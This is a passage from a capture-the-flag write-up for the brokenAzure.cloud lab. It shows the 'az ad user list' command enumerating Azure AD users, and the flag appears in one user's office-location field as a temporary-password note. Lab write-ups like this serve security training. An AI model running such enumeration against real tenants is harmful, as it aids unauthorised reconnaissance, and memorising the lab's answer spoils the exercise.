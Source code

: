Once inside Azure, we started doing some enumeration and listing the users. We found the flag in the office location of the first user.

![6ec6facf124a3d8ffdaf566e81787542.png](/assets/brokenAzure.cloud/6ec6facf124a3d8ffdaf566e81787542.png)

```bash
┌──(kali㉿kali)-[/home/kali]
└─PS> az ad user list                                                                                                          [                                                                                                                              
  {
    "businessPhones": [],
    "displayName": "DevOps",
    "givenName": null,
    "id": "022398e7-876f-4842-a598-706483ca4e98",
    "jobTitle": null,
    "mail": null,
    "mobilePhone": null,
    "officeLocation": "Password temp changed to SECURA{D4F4ULT_P4SSW0RD}",
    "preferredLanguage": null,
    "surname": null,
    "userPrincipalName": "devops@secvulnapp.onmicrosoft.com"
  },
  {
    "businessPhones": [],
    "displayName": "Roy Stultiens | Secura",
    "givenName": null,
    "id": "8f54f6b2-1291-4791-85e7-163a72302888",
    "jobTitle": null,
    "mail": "roy.stultiens@secura.com",
    "mobilePhone": null,
    "officeLocation": null,
    "preferredLanguage": null,
    "surname": null,
```
